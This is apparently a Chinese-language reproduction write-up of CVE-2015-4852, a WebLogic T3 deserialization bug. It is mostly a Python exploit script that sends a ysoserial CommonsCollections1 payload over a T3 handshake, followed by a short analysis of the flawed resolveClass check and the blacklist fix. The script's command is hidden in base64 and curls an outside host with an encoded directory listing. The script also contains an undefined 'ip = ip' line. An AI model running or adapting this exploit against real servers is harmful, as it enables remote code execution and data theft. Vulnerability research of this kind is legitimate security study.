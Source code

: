 # CVE-2015-4852复现分析

## paylaod

```java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial-0.0.5.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    print(payload)
    sock.send(payload)


if __name__ == "__main__":
    ip = ip
    port = port
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vaW5mby55NHRhY2tlci50b3A/MT1gbHMgfGJhc2U2NGA=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

## 漏洞分析

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法，查看一下![](img/1.png)

这里调用创建一个内部类，并且调用`readObject`方法，还需要查看一下 `ServerChannelInputStream`实现。

在这里其实就可以看到`ServerChannelInputStream`是一个内部类，该类继承`ObjectInputStream`类，而在这里对`resolveClass`进行了重写![](img/2.png)

但是在此处看到，其实调用的还是父类的`resolveClass`方法。在`resolveClass`方法中也没做任何的校验，导致的漏洞产生



至此我们的反序列化点就有了，那么既然有了反序列化点，我们的 gadget也采用CC1即可，直接用ysoserial生成即可

## 漏洞修复

增加了黑名单，显然不是一个很好的措施，可能会存在绕过黑名单的情况![](img/5.png)